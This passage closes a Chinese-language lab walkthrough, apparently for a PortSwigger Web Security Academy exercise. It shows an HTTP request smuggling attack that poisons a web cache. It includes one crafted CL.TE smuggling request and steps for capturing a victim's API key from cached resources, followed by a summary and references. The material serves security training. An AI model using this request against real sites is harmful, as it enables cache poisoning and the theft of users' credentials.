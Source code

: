 [![](assets/1704418275-9a7fe4906debc1f8d7314b1500b033e5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103170659-73d67dc2-aa17-1.png)

[![](assets/1704418275-ce1718e7a06dd7432b7d51eaf60acb6f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103170706-77abc614-aa17-1.png)  
从数据包中可以看的并没有缓存的防御头信息  
[![](assets/1704418275-dccb305a798c99d67a75fa1d6727e06c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103170717-7e3d3396-aa17-1.png)  
随后构造一下请求走私的数据包

```plain
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Transfer-Encoding: chunked

0

GET /my-account HTTP/1.1
X-Ignore: X
```

[![](assets/1704418275-3cccfa12870f49fc975c214786865ae9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103170737-8a1ec0f8-aa17-1.png)  
重复这个请求几次，然后在匿名浏览器窗口中加载主页

[![](assets/1704418275-1330fbaae7730cf4984b670ad4a71ed9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103170751-92accf62-aa17-1.png)  
使用 Burp 菜单上的搜索功能来查看“Your API Key”是否出现在任何静态资源中，如果没有则重复 POST 请求，强制重新加载浏览器窗口并重新运行搜索  
[![](assets/1704418275-339822a168ccccb02266bb8b8c5f43a6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103170806-9b6ace1a-aa17-1.png)

提交受害者的 API 密钥作为实验室解决方案

[![](assets/1704418275-d89cc86e96f624484639f1c713959ef7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103170818-a2801b60-aa17-1.png)

## 文末小结

本篇文章主要怼请求走私的原理、请求走私的检测方式、利用请求走私绕过检测或限制、请求走私的扩展利用方式进行了全方面的介绍，由于篇幅问题这里就不再继续去深入探索 HTTP2.0 版本的请求走私问题了，后续有时间再进行补充说明~

## 参考链接

[https://www.youtube.com/watch?v=w-eJM2Pc0KI](https://www.youtube.com/watch?v=w-eJM2Pc0KI)  
[https://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf](https://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf)
